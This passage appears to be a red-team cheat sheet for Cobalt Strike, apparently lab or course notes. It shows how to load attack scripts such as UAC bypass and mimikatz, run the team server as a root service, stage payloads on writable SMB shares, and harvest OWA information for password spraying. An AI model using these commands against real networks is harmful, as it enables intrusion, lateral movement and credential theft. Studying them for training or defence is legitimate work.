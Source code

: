 ```php
}

beacon_remote_exploit_register("dcom", "x64", "Use DCOM to run a Beacon payload", &invoke_dcom);
```
#### Scripts
Cobalt Strike → Script Manager → Load
`C:\Tools\cobaltstrike\elevate-kit\elevate.cna`
`C:\Tools\SCMUACBypass\scmuacbypass.cna`
`C:\Tools\cobaltstrike\artifacts\pipe\artifact.cna`
`C:\Tools\cobaltstrike\resources\resources.cna`
`C:\Tools\cobaltstrike\mimikatz\mimikatz.cna`
`C:\Tools\cobaltstrike\custom\dcom.cna`
`C:\Tools\PortBender\PortBender.cna`
## Command & Control
#### Running as a Service
/etc/systemd/system/teamserver.service
```systemd
[Unit]
Description=Cobalt Strike Team Server
After=network.target
StartLimitIntervalSec=0

[Service]
Type=simple
Restart=always
RestartSec=1
User=root
WorkingDirectory=/home/attacker/cobaltstrike
ExecStart=/home/attacker/cobaltstrike/teamserver 10.10.5.50 S@lcianaszkot23 c2-profiles/custom/custom.profile

[Install]
WantedBy=multi-user.target
```

`sudo systemctl daemon-reload`
`sudo systemctl enable teamserver.service`
`sudo systemctl start teamserver.service`
#### Serving Payload Internally (SMB)

Find Writeable Share
`powerpick Find-DomainShare -CheckShareAccess`
`cd \\[computer]\[share]`
`upload C:\Payloads\dns_x64.exe`- change payload if desired

Create New Share
`run mkdir C:\share`
`cd C:\share`
`upload C:\Payloads\dns_x64.exe`- change payload if desired
`powershell New-SmbShare -Name "share" -Path "C:\share" -ReadAccess "[domain]\Domain Users"`
Remove Share
`powershell Remove-SmbShare -Name "share" -Force`
## Initial Compromise
#### Password Spraying
`ipmo C:\Tools\MailSniper\MailSniper.ps1`
`Invoke-DomainHarvestOWA -ExchHostname mail.cyberbotic.io`
